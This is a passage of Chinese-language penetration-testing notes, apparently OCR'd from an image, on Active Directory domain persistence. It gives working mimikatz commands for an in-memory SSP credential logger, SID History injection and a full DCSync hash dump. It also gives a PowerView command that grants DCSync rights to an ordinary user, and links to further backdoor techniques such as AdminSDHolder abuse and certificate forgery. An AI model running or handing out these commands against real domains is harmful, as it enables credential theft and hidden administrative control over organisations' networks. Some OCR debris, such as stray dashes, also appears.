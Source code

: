 简单的理解为SSP就是一个DLL，用来实现身份认证


privilege::debug-
misc::memssp-

这样就不需要重启可看到新生成的文件kiwissp.log`c:/windows/system32`

##### [SID History](https://adsecurity.org/?p=1772)

SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户

1-

mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"-

##### [AdminSDHolder＆SDProp](https://adsecurity.org/?p=1906)

利用AdminSDHolder＆SDProp（重新）获取域管理权限

##### Dcsync后门

向域成员赋予Dcsync权限


Powerview.ps1-
Add-DomainObjectAcl -TargetIdentity "DC=vulntarget,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose-

在登录了test1域账户的机器上执行Dcsync利用操作



mimikatz "lsadump::dcsync /domain:vulntarget.com /all /csv"-

##### 组策略

[https://adsecurity.org/?p=2716](https://adsecurity.org/?p=2716) [策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531)

##### Hook PasswordChangeNotify

[http://www.vuln.cn/6812](http://www.vuln.cn/6812)

##### Kerberoasting后门

[域渗透-Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)

##### AdminSDHolder

[Backdooring AdminSDHolder for Persistence](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

##### Delegation

[Unconstrained Domain Persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

证书伪造： [pyForgeCert](https://github.com/Ridter/pyForgeCert)
